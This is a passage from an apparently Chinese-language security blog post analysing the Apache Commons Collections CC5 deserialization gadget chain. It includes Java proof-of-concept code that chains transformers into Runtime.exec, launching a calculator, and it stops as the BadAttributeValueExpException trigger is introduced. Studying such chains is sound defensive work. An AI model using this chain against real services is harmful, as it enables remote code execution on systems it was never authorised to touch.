 
cc5的后半段与cc1相同，在cc1中说了，这里只要调用`LazyMap#get`并且传递任意内容即可触发后续的链达到rce的目的。

在cc5中用到的是TiedMapEntry中的`toString`方法：

    public String toString() {
            return this.getKey() + "=" + this.getValue();
        }
    

跟进getValue方法：

     public V getValue() {
            return this.map.get(this.key);
        }
    

可以发现这里对this.map调用了get方法，并将key传递进去，所以这里只需要令map为我们前面构造好的LazyMap，即可触发rce

![image-20221113180151789](https://img2022.cnblogs.com/blog/3010963/202211/3010963-20221113180155473-765366332.png)

map以及key都是我们可控的，构造POC：

    import org.apache.commons.collections.Transformer;
    import org.apache.commons.collections.functors.ChainedTransformer;
    import org.apache.commons.collections.functors.ConstantTransformer;
    import org.apache.commons.collections.functors.InvokerTransformer;
    import org.apache.commons.collections.map.LazyMap;
    import org.apache.commons.collections4.keyvalue.TiedMapEntry;
    
    import java.util.HashMap;
    
    public class cc5 {
        public static void main(String[] args){
            ChainedTransformer chain = new ChainedTransformer(new Transformer[] {
                    new ConstantTransformer(Runtime.class),
                    new InvokerTransformer("getMethod", new Class[] {
                            String.class, Class[].class }, new Object[] {
                            "getRuntime", new Class[0] }),
                    new InvokerTransformer("invoke", new Class[] {
                            Object.class, Object[].class }, new Object[] {
                            null, new Object[0] }),
                    new InvokerTransformer("exec",
                            new Class[] { String.class }, new Object[]{"calc。exe"})});
            HashMap innermap = new HashMap();
            LazyMap map = (LazyMap)LazyMap.decorate(innermap,chain);
            TiedMapEntry tiedmap = new TiedMapEntry(map,123);
            tiedmap.toString();
        }
    }
    

![image-20221113180531912](https://img2022.cnblogs.com/blog/3010963/202211/3010963-20221113180536801-2141412011.png)

接下来我们需要找哪里调用了`toString`方法，在cc5中使用了`BadAttributeValueExpException`这个类

BadAttributeValueExpException#readObject：![image-20221113181105907](https://img2022.cnblogs.com/blog/3010963/202211/3010963-20221113181109548-629828320.png)
